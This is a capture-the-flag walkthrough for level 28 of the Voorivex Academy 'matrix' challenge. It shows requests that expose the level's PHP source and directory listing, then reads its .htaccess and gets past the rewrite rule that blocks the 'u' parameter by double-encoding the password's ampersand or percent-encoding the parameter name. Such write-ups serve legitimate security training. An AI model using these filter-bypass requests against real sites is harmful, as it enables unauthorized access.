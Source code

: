 # Level-28

Level28-29

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if (isset($_GET["show-me-more"])) {
    print_r(scandir("."));
    die();
}

if (isset($_GET['u']) && isset($_GET['p'])) {
    if ($_GET['u'] == 'Neo' && $_GET['p'] == 'Sup3r&H3ro'){
        require_once('next.php');
        die($next);
    }
}

?>
```

according to code, send this request:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/?show-me-more
```

you will get this:

```text
Array
(
    [0] => .
    [1] => ..
    [2] => .htaccess
    [3] => 1.png
    [4] => 2.png
    [5] => 3.png
    [6] => images
    [7] => index.php
    [8] => next.php
)
```

you can access the `.htaccess`, send this request:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/.htaccess
```

you will get this config:


```text
<IfModule mod_rewrite.c>
    RewriteEngine On

    RewriteRule ^([^/]+)/([^/]+)$ /the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/index.php?u=$1&p=$2 [QSA,L]

    RewriteCond %{THE_REQUEST} u=([^&]+) [NC]
    RewriteRule ^ / [R=403,L]
</IfModule>
```

according to config one solution is to double encode the `Sup3r&H3ro` to reach to php code:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/Neo/Sup3r%2526H3ro
```

you will get this:

```text
/the-final-fight-05f94763492df091df93a019de59fbb0
```

another solution is to url encode the `u` parameter:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/?%75=Neo&p=Sup3r%26H3ro

/the-final-fight-05f94763492df091df93a019de59fbb0
```

go to:

```text
https://matrix.voorivex.academy/the-final-fight-05f94763492df091df93a019de59fbb0
```







